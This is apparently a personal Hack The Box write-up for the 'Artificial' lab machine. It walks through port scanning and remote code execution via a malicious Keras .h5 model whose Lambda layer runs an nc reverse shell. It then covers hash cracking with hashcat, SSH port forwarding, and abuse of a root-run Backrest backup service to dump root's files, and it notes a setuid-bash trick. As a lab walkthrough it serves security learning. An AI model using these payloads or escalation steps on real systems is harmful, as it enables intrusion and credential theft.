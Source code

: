 ```yaml
---
title: Artificial - HTB
date: 2025-06-26 14:00:00 +0200
categories: [Hack The Box, Linux0]
tags: [ Linux , File-Upload , Service-Abuse ]
toc: true
comments: true
image: ./assets/img/attachments/Artificial-1.png
imageNameKey: Artificial
---
```

Hey Everyone! Today I'm going to demonstrate how I pwned Artificial machine from hack the box, it's 7/1000 write-up. Lets goo!
## Port Enumeration
lets see what we have open for this ip:
```bash
sudo nmap -sS 10.10.11.74 -F -Pn -A
```
I started with -F to speed the process, then will run -p-
```bash
Nmap scan report for 10.10.11.74
Host is up (0.43s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   390.30 ms 10.10.16.1
2   199.20 ms 10.10.11.74
                                                                 
```

I will check the website running on port 80 until full port enumeration is done.
After taking a close look on this web app, and creating an account, there was a requirements file at the upload section
![](/assets/img/attachments/Artificial.png)
```
Please ensure these requirements are installed when building your model, or use our Dockerfile to build the needed environment with ease.
```

So we need an .h5 file with this requirements, we have two options:
	1- either to use this tensorflow version
	2- or to use the docker file downloaded from this web page
	
![](/assets/img/attachments/Artificial-2.png)
building this docker
```bash
sudo docker build -t my-tf-container .
```
![](/assets/img/attachments/Artificial-3.png)

to be able to mount codes from the directory of my host:
```bash
sudo docker run -it -v $(pwd):/code my-tf-container
```

We will use this code to trigger a reverse shell. Why does this work?  
The web application allows users to upload `.h5` files without any validation. These files are based on the HDF5 format and can contain embedded Python objects. Keras uses `pickle` internally to deserialize custom objects when loading these model files. And by  including a malicious pickled object in the `.h5` file, it will lead to Remote Code Execution (RCE) during deserialization.
## Initial Access
I tried several codes with the help of ChatGPT but didn't trigger the reverse shell, but this one did 
[exploit code from github](https://github.com/Splinter0/tensorflow-rce/blob/main/exploit.py)

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.66 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
![](/assets/img/attachments/Artificial-4.png)
Now after uploading this file and triggering it by `view predicitons` (Which the run_model endpoint)
RCE was triggered and we got the reverse shell!
![](/assets/img/attachments/Artificial-5.png)
## Lateral Movement
with more digging in those directories
![](/assets/img/attachments/Artificial-6.png)

I downloaded this file to my machine by 
```bash
python3 -m http.server (victim)
curl http://10.10.11.74:8000/users.db --output users.db (my machine)
```
Its sqlite file
![](/assets/img/attachments/Artificial-7.png)

Since there are multiple users, and to avoid wasting time, we can focus on the initial access we already have. In the `/home` directory, we find two user folders: `app` (which is our current user) and `geal`
lets try to crack geal pass
```bash
hashcat -m 0 c99175974b6e192936d97224638a34f8 /usr/share/wordlists/rockyou.txt
```
![](/assets/img/attachments/Artificial-8.png)
And got the password!
And i logged in as gael using ssh!
## Service Abuse
Then I ran linpeas, I didn't get any direct exploits, but active ports catches my eyes
![](/assets/img/attachments/Artificial-9.png)

port 5000 runs artificial.htb locally but what's on 9898?
using this command for port forwarding
```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

![](/assets/img/attachments/Artificial-10.png)
There's this service running, but it has no direct public exploits. So the question here is: **what is this service?**

Running `backrest -h` reveals that it's a binary named `backrest` that exposes several command-line flags. This helped confirm that the service is **Backrest**, a web-based UI wrapper for the `restic` backup tool. It's intended to manage and automate backups in a self-hosted environment. It supports multiple repository backends — such as local storage, SFTP, S3, B2, and others supported by `restic` — and allows users to configure and schedule backups directly from the web interface.
since its a backup tool, i went back to linpeas output
![](/assets/img/attachments/Artificial-11.png)
There's backrest backup file!
I couldn't extract its content although i have read permission on it, because tar is recreating a folder to insert the uncompressed content in it and i don't have permissions to mkdir in this directory!
I transferred the file to my machine using http server, or u can copy it to geal user folder and uncompressed it there
In config.json:
![](/assets/img/attachments/Artificial-12.png)
we have bcrypt hash password which base 64 encoded

```bash
echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP' | base64 -d
```
To find hashcat mode
```bash
hashcat -h | grep bcrypt
```
and got the password using hashcat
```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt -a 0
```
logging in with this user
I created Restic repo
![](/assets/img/attachments/Artificial-13.png)

Then from running help command in Run Command option it was clear that i can backup any file (this service runs with root permission)
The easy way is to get the root flag and we can do the same to get root priv ssh key
![](/assets/img/attachments/Artificial-14.png)
![](/assets/img/attachments/Artificial-15.png)
We need the id 60... to be used with dump command
![](/assets/img/attachments/Artificial-16.png)
And to get ssh key
![](/assets/img/attachments/Artificial-17.png)
![](/assets/img/attachments/Artificial-18.png)
And ROOTED!!
## Extra Tip
I saw another neat root method where someone abused the `--restic-cmd` flag and used an environment variable like `RESTIC_PASSWORD_COMMAND='/bin/chmod +s /bin/bash'` to make bash setuid and get root — definitely a clever trick.
![](/assets/img/attachments/Artificial-19.png)
